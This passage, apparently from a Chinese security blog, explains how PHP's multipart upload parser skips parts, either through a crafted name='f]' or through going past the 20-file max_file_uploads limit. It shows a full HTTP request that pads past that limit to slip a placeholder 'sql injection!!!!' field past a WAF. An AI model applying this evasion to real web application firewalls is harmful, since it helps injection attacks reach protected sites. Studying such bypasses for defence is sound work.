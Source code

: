 其中的 param 就是 `name="f"`，当程序进入 `c < 0` 这个分支时，就会跳过当前 part 的上传流程。由于初始化时 `c = 0`，遇到 `[` 时，`c += 1`，遇到 `]` 时，`c -= 1`。因此，可以构造 `name="f]"`，即可让 `c = -1`。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051601257.png-water_print](assets/1699408375-acbaad01566b5820efca058ecf9ff4db.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051601257.png-water_print")

### [](#skip_upload---2)skip\_upload - 2

在 PHP [源码](https://github.com/php/php-src/blob/PHP-7.4.28/main/rfc1867.c#L943)中，有这样一段代码：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051608783.png-water_print](assets/1699408375-9477b4160bd8ca3db669cf7014a9bd68.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203051608783.png-water_print")

当文件上传数量超出最大值后，会跳过当前 part 文件的处理。在 php 5.2.12 和以上的版本，有一个隐藏的文件上传限制是在 `php.ini` 里没有的，就是这个 `max_file_uploads` 的设定，该默认值是 20, 在 php 5.2.17 的版本中该值已不再隐藏。文 件上传限制最大默认设为 20，所以一次上传最大就是 20 个文档，所以超出 20 个就会报错。

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>``` | ```http<br>POST /waf.php HTTP/1.1<br>Accept: */*<br>Host: localhost:8081<br>Accept-Encoding: gzip, deflate<br>Connection: close<br>Content-Type: multipart/form-data; boundary=a<br>Content-Length: 2030<br><br>--a<br>Content-Disposition: form-data; name="1"; filename="pic.png"<br>Content-Type: image/png<br><br>1<br>--a<br>Content-Disposition: form-data; name="2"; filename="pic.png"<br>Content-Type: image/png<br><br>2<br>--a<br>Content-Disposition: form-data; name="3"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="4"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="5"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="6"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="7"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="8"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="9"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="10"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="11"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="12"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="13"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="14"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="15"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="16"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="17"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="18"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="19"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="id"; filename="pic.png"<br>Content-Type: image/png<br><br>3<br>--a<br>Content-Disposition: form-data; name="id";<br><br>sql injection!!!!<br>--a--<br>``` |

